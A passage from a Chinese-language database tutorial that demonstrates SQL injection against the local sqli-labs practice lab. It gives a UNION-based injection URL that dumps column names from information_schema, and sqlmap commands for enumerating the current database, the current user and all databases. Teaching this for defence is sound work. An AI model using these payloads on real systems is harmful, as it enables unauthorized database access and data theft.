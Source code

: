 这里我们同样将数据表名称使用GROUP_CONCAT函数拼接起来，作为字段3进行返回。

<img src="https://static001.geekbang.org/resource/image/7e/a7/7e1aa81c623e28c87666cfdd290462a7.png" alt="">

### 查询heros数据表中所有字段名称

在上面的实验中，我们从wucai数据库中找到了熟悉的数据表heros，现在就来通过information_schema来查询下heros数据表都有哪些字段，使用下面的命令即可：

```
http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+

```

这里会将字段使用GROUP_CONCAT函数进行拼接，并将结果作为字段3进行返回，返回的结果如下所示：

```
attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main

```

<img src="https://static001.geekbang.org/resource/image/f3/bf/f30c7a68fba4fd8eff3ea8370aca00bf.png" alt="">

## 使用SQLmap工具进行SQL注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着SQL注入的漏洞，后果还是很可怕的。通过访问`information_schema`就可以将数据库的信息暴露出来。

了解到如何完成注入SQL后，我们再来了解下SQL注入的检测工具，它可以帮我们自动化完成SQL注入的过程，这里我们使用的是SQLmap工具。

下面我们使用SQLmap再模拟一遍刚才人工SQL注入的步骤。

### 获取当前数据库和用户信息

我们使用`sqlmap -u`来指定注入测试的URL，使用`--current-db`来获取当前的数据库名称，使用`--current-user`获取当前的用户信息，具体命令如下：

```
python sqlmap.py -u &quot;http://localhost/sqli-labs-master/Less-1/?id=1&quot; --current-db --current-user

```

然后你能看到SQLmap帮我们获取了相应的结果：

<img src="https://static001.geekbang.org/resource/image/42/05/42626ab164f9935e0c22ced9fa5f8105.png" alt="">

### 获取MySQL中的所有数据库名称

我们可以使用`--dbs`来获取DBMS中所有的数据库名称，这里我们使用`--threads`参数来指定SQLmap最大并发数，设置为5，通常该参数不要超过10，具体命令为下面这样：

```
python sqlmap.py -u &quot;http://localhost/sqli-labs-master/Less-1/?id=1&quot; --threads=5 --dbs

```

同样SQLmap帮我们获取了MySQL中存在的8个数据库名称：
